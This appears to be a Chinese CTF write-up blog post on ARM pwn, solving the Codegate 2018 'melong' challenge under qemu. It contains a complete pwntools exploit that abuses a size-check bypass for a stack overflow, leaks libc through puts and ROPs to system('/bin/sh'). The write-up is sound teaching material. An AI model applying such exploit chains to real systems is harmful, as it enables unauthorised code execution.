 ```yaml
---
layout:     post
title:      arm架构 pwn入门之路
subtitle:   学习arm架构下pwn题目的调试
date:       2020-11-16
author:     X1ng
header-img: mips.jpg
catalog: true
tags:
    - arm pwn
    - wp

---
```


要期中考试了，水一篇ARM

## 环境搭建

网上的师傅们都讲的很详细了

我是看着[这个师傅的博客](https://www.jianshu.com/p/a7e2da50263e)装的环境



## 例题复现

### Codegate2018_melong

题目有libc和ld文件

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6aescr7j30km07smyx.jpg)

32位的arm小端序程序，只开启了NX保护

调试与mips下差不多

```shell
qemu-arm-static -L ./ ./melong
```

或者与pwntools联动

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys
context.binary = "./melong"

if sys.argv[1] == "r":
    io = remote("localhost", 9999)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1234", "-L", "./", "./melong"])
```

另一个shell

```
gdb-multiarch ./test 
target remote 127.0.0.1:1234
```

ida打开

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr5ukg64wj30u00uc148.jpg)

有个菜单，以为是堆题，实际上是栈溢出

需要先check后才能进行其他操作

函数比较多，漏洞在write_diary函数中

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67ufzklj31d90u0ais.jpg)

write_diary函数的第一个参数控制无符号整数nbyte，也就是read可以向栈中写入的字节，可以从mian函数中看到，就是PT函数的返回值，进入PT函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr67jclbej31d30u0k28.jpg)

发现整型返回值可以由用户输入，但是要绕过`ptr == (void)exc2`的检查，追踪exc2发现对其操作是在check函数的子函数get_result函数里

check函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr6sekcsjj31db0u0wql.jpg)

get_result函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr7ayqklfj30u01wbayd.jpg)

check函数限制只能check两次，而这个exc2应该是保存第二次check后bmi值的地方，要实现分配的chunk地址相等似乎有些困难，而且如果分配一个比较大的数字，需要等待sleep函数执行很久

但是看PT函数中的分支

```c
if ( ptr == (void *)exc2 )
  {
    puts("Okay, start to exercise!");
    for ( i = 0; i < (signed int)size; ++i )
    {
      puts("you are getting healthy..");
      sleep(1u);
    }
    free(ptr);
    v0 = size;
  }
```

在for循环的条件中用了强制类型转换，将size转换为无符号整数

如果让size等于-1的话，malloc会请求失败返回`NULL`，也就是0，而在第一次check之后exc2正好也是0

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkr76g415pj310b0u07e9.jpg)

即绕过检查，又不用等待sleep函数，在write_diary函数中就可以随便写了

cyclic计算偏移后泄露地址

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

发现程序会崩溃，是因为puts函数在反悔的时候并不是`pop pc`，而是`pop	{r4, r5, r6, r7, r8, r9, r10, pc}`

所以需要在前面补充一些垃圾数据,才能返回main函数

```python
check(1.76,103)
PT(-1)

pd = 'a'*0x54+p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)+p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

io.interactive()
```

之后就是正常的rop了

exp:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
import sys

context.binary = "./melong"
context.log_level = "debug"

if sys.argv[1] == "r":
    io = remote("",)
elif sys.argv[1] == "l":
    io = process(["qemu-arm", "-L", "./", "./melong"])
else:
    io = process(["qemu-arm", "-g", "1237", "-L", "./", "./melong"])

elf = ELF("./melong", checksec = False)
libc = ELF("./libc.so.6", checksec = False)
context.log_level = "debug"

def check(height, weight):
    io.sendlineafter(":", "1")
    io.sendlineafter(" : ", str(height))
    io.sendlineafter(" : ", str(weight))

def PT(size):
    io.sendlineafter(":", "3")
    io.sendlineafter("?\n", str(size))

def write(payload):
    io.sendlineafter(":", "4")
    io.send(payload)

pop_r0_pc = 0x00011bbc

check(1.76,103)
PT(-1)

pd = 'a'*0x54 + p32(pop_r0_pc) + p32(elf.got['puts']) + p32(elf.plt['puts'])
pd += p32(0)*7 + p32(elf.sym['main'])
write(pd)

io.sendlineafter(":", "6")
io.recvuntil("See you again :)\n")

libc.address = u32(io.recvn(4)) - libc.sym['puts']
print hex(libc.address)

check(1.82, 60)
PT(-1)
pd = 'a'*0x54 + p32(pop_r0_pc) + p32(next(libc.search("/bin/sh"))) + p32(libc.sym['system'])
write(pd)
io.sendlineafter(":", "6")

io.interactive()
```





